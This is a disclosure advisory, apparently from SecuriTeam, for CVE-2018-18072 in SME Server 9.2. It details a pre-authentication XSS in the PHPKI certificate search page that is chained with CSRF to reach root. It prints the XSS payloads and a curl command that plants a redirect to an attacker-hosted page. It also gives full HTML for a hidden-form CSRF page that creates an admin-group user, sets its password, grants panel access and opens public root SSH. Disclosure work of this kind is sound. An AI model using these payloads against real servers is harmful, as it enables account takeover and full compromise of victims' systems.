 **Vulnerabilities Summary**<br>
The following advisory describes a vulnerability in SME Server 9.2, which lets an unauthenticated attackers perform XSS attack that leads to remote code execution as root. SME Server is a Linux distribution for small and medium enterprises by Koozali foundation.

**CVE**<br>
CVE-2018-18072

**Credit**<br>
An independent security researcher, Karn Ganeshen has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
SME Server 9.2

**Vendor Response**<br>
Fixed in phpki-0.82-17.el6.sme, phpki-0.82-18.el6.sme, phpki-0.82-19.el6.sme

**Vulnerability Details**<br>
Software for the SME Server is packaged using RPM Package Manager (RPM) system. Existing packages from CentOS and other third-party developers are used. The SME Server uses packages from the open source community. Packages are called as contribs. Each contrib adds a specific functionality to the SME server  deployment. Once a contrib is installed, the corresponding Menu or web panel is added to the SME HTTP management portal. The default admin user has access to all contrib Menus. admin can create a new user and assign access of specific web panels (functionality) to the user. The user can, then, view, access and administer only those specific web panels.
The vulnerable components are the “Certificate Management” & “Advanced Web Statistics”, Which are vulnerable to Cross-Site Scripting & Cross-Site Request Forgery.
For the next demonstration , the Attackers IP is 192.168.1.2 and the SME Server IP 192.168.1.109.
The exploitation starts with the contrib – PHPKI – smeserver-phpki. This contrib provides a Certificate Management functionality. The administrator adds new certificates, which the users can download and set up in their browsers. The Certificate Management portal is accessible at https://<SME Server IP>/phpki/.
It should look like this:<br>
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-PHPki-page-300x85.png">

All users can access this without any authentication. The portal provides a Search function where a user can search for existing certificates.

**Exploit**<br>
1) Reflected XSS [Pre-Auth] https://192.168.1.109/phpki/search.php/”>&lt;script>alert(“xss-phpki”)</script> . We can now see that this component is vulnerable to XSS.<br>
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-step1-300x93.png">

Now lets arm the payload: We will inject the following payload: “><script>document.location=”http://192.168.1.2/ssd.html”</script>
Issue the following request: curl ‘https://192.168.1.109/phpki/search.php/”><script>document.location=”http://192.168.1.2/ssd.html”</script>’ –insecure This payload is injected in the back-end (Stored-XSS) and used by another contrib, Awstats.
2) Start a web server on Attacker IP to serve our evil form – ssd.html<br>
```shell
$ sudo python -m SimpleHTTPServer 80 Serving HTTP on 0.0.0.0 port 80
```

3) Stored XSS + Cross-Site Request Forgery The next step in exploitation, targets the web panel – Advanced Web Statistics 7.1 (build 1.983).  This contrib – smeserver-awstats.noarch – provides functionality to monitor web traffic to the  server. The following steps are from Admin point of view.<br>
1+ Admin logs in <br>
2+ Admin accesses Web Statistics -> Show -> Navigation (Full List – urldetail) This is the full list of all page urls accessed, which opens up – https://192.168.1.109/servermanager/cgi-bin/.awstats/awstats.pl config=mycompany.local&lang=auto&output=urldetail <br>
3+ Admin clicks on the entry:

<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-admin-access-300x84.png">

4+ This opens a new page about details on this entry.<br>
5+ XSS Payload executes and fetches ssd.html from our server.
Now, on the attackers console:<br>

```shell
[bash-3.2$ sudo python -m SimpleHTTPServer 80
[password:
Serving HTTP on 0.0.0.0 port 80 ...
192.168.1.2 - - [10/9/2018 08:30:23] "GET /ssd.html HTTP/1.1" 200 -
```

The page that the victim will get is:

```HTML
<html>
</html>
<head>
    <title>Evil Form - Add user5 + Set Password + assign panel access - XSS+CSRF</title>
    <script type="text/javascript">
        function exec1() {
            document.getElementById('1').submit();
            setTimeout(exec2, 3000);
        }
        function exec2() {
            document.getElementById('2').submit();
            setTimeout(exec3, 3000);
        }
        function exec3() {
            document.getElementById('3').submit();
            setTimeout(exec4, 3000);
        }
        function exec4() {
            alert("4");
            document.getElementById('4').submit();
        }
        //				window.onbeforeunload=function(){
        //				return	"please	wait";
        //				}
    </script>
</head>
<body onload='exec1()'>
    <!-- Add	new	user	-->
    <form id='1' target="if1" name="badform_1" method="post" action="https://192.168.1.109/server-manager/cgi-bin/useraccounts">
        <input type="hidden" name="page" value="1" />
        <input type="hidden" name="page_stack" value="0" />
        <input type="hidden" name=".id" value="0d41969df339a1a62711edf93f48a673" />
        <input type="hidden" name="acctName" value="user5" />
        <input type="hidden" name="action" value="create" />
        <input type="hidden" name="FirstName" value="user5" />
        <input type="hidden" name="LastName" value="lname" />
        <input type="hidden" name="Dept" value="Main" />
        <input type="hidden" name="Company" value="XYZ+Corporation" />
        <input type="hidden" name="Street" value="123+Main+Street" />
        <input type="hidden" name="City" value="Ottawa" />
        <input type="hidden" name="Phone" value="555-5555" />
        <input type="hidden" name="EmailForward" value="local" />
        <input type="hidden" name="ForwardAddress" value="" />
        <input type="hidden" name="VPNClientAccess" value="no" />
        <input type="hidden" name="groupMemberships" value="admingroup" />
        <input type="hidden" name="Next" value="Add" />
    </form>
    <!-- Set	password	for	new	user	-->
    <form id='2' target="if2" name="badform_2" method="post" action="https://192.168.1.109/server-manager/cgi-bin/useraccounts">
        <input type="hidden" name="page" value="4" />
        <input type="hidden" name="page_stack" value="3" />
        <input type="hidden" name=".id" value="0d41969df339a1a62711edf93f48a673" />
        <input type="hidden" name="acctName" value="user5" />
        <input type="hidden" name="password1" value="SSDpassword@12345" />
        <input type="hidden" name="password2" value="SSDpassword@12345" />
        <input type="hidden" name="Next" value="Save" />
    </form>
    <!-- Assign	panel	access	to	new	user.	More	can	be	added	for	additional	access.-->
    <form id='3' target="if3" name="badform_3" method="post" action="https://192.168.1.109/server-manager/cgi-bin/userpanelaccess">
        <input type="hidden" name="panelAccess" value="remoteuseraccess" />
        <input type="hidden" name="panelAccess" value="viewlogfiles" />
        <input type="hidden" name="panelAccess" value="groups" />
        <input type="hidden" name="panelAccess" value="userpanelaccess" />
        <input type="hidden" name="panelAccess" value="userpanel-password" />
        <input type="hidden" name="panelAccess" value="userpanel-sshkeys" />
        <input type="hidden" name="panelAccess" value="userpanel-useraccounts" />
        <input type="hidden" name="panelAccess" value="userpanel-userbackup" />
        <input type="hidden" name="action" value="Modify" />
        <input type="hidden" name="acct" value="user5" />
        <input type="hidden" name="state" value="performModifyAccess" />
    </form>
    <!-- Change	remote	access	settings	- Open	up	Remote	Access	from	public	Internet	-->
    <form id='4' target="if4" name="badform_4" method="post" action="https://192.168.1.109/server-manager/cgi-bin/remoteaccess">
        <input type="hidden" name="page" value="0" />
        <input type="hidden" name="page_stack" value="" />
        <input type="hidden" name=".id" value="2e7d2cda4ce6b680499d4b2ee8eb7831" />
        <input type="hidden" name="pptpSessions" value="0" />
        <input type="hidden" name="validFromNetwork" value="" />
        <input type="hidden" name="validFromMask" value="" />
        <input type="hidden" name="sshAccess" value="public" />
        <input type="hidden" name="sshPermitRootLogin" value="yes" />
        <input type="hidden" name="sshPasswordAuthentication" value="yes" />
        <input type="hidden" name="sshTCPPort" value="22" />
        <input type="hidden" name="FTPAccess" value="normal" />
        <input type="hidden" name="FTPPasswordLogin" value="public" />
        <input type="hidden" name="Next" value="Save" />
    </form>
    <iframe name="if1" style="display:	hidden=" width="0" height="0" frameborder="0"></iframe>
    <iframe name="if2" style="display:	hidden=" width="0" height="0" frameborder="0"></iframe>
    <iframe name="if3" style="display:	hidden=" width="0" height="0" frameborder="0"></iframe>
    <iframe name="if4" style="display:	hidden=" width="0" height="0" frameborder="0"></iframe>
</body>
```

**This Payload will:**<br>
1+ Add a new user, set password (user5/SSDpassword@12345)<br>
2+ Assign various webpanel access to the new user<br>
* remoteuseraccess
* viewlogfiles
* groups
* userpanelaccess
* userpanel-password
* userpanel-sshkeys
* userpanel-useraccounts
* userpanel-userbackup<br>

3+ Reconfigure network filtering to open SSH/FTP access for all IP sources At this point, the attacker can log in with new user credentials, and has access to various webpanels (functionality) now.

<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-user5-panel-300x78.png">

4) Attacker adds shell configuration for this new user – user5 – as follows:<br>
1+ Security -> User Remote Access -> ‘user5’ Modify -> Select ‘/bin/bash’ as Shell Access option –> Save.<br>

<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-user-5-shell-panel-300x123.png">

2+ Attacker SSH in to the SME Server remotely:<br>
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-ssh-300x186.png">

3+ Attacker can execute commands as root using sudo.<br>
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-etc-shadow-191x300.png">
